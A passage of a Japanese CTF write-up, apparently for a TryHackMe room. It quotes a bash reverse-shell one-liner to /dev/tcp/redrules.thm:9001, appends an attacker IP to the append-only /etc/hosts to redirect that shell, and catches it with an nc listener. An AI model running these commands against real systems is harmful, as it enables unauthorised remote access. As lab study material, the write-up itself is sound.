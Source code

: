 一定時間たったら強制切断され、パスワードも変えられる。  
まずはこれを回避したい。

```shell
blue@red:~$ Say Bye Bye to your Shell Blue and that password                                                        
Connection to 10.10.238.203 closed by remote host.                                                                  
Connection to 10.10.238.203 closed.
```

redによりリバースシェルが実行されている。

```shell
$ ps -aux

red         1343  0.0  0.0   6972  2564 ?        S    09:18   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

hostsは書き込み権限が付いているように見えるが、実際に編集すると保存時にエラーになる。

```shell
blue@red:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter

blue@red:~$ ls -al /etc/hosts
-rw-r--rw- 1 root adm 242 Apr  5 02:06 /etc/hosts
```

lsattr で追記だけ可能と判明。

```shell
blue@red:~$ lsattr /etc/hosts
-----a--------e----- /etc/hosts
```

追記し、リバースシェルの宛先を自分のマシンにする。

```shell
blue@red:~$ echo '10.2.22.182 redrules.thm' >> /etc/hosts
```

切断された後、再度SSH接続するとリバースシェル取得できた。  
おそらく blue のログインがトリガーになっている。

```shell
$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.67.201] 57510
bash: cannot set terminal process group (1386): Inappropriate ioctl for device
bash: no job control in this shell
red@red:~$ 
```
